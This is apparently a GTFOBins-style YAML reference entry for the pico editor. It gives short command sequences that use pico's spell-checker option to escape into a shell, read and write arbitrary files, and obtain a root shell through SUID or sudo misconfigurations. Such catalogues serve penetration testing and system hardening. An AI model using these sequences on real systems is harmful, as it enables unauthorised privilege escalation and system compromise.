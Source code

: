 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^T 
    - description: If ``Unknown error`` is provided on `^T`, you can try the following code.
      code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        pico -s $TF /etc/hosts
        ^R ^X /bin/sh
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./pico -s $TF /etc/hosts
        ^T
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo pico -s $TF /etc/hosts
        ^T
---
```

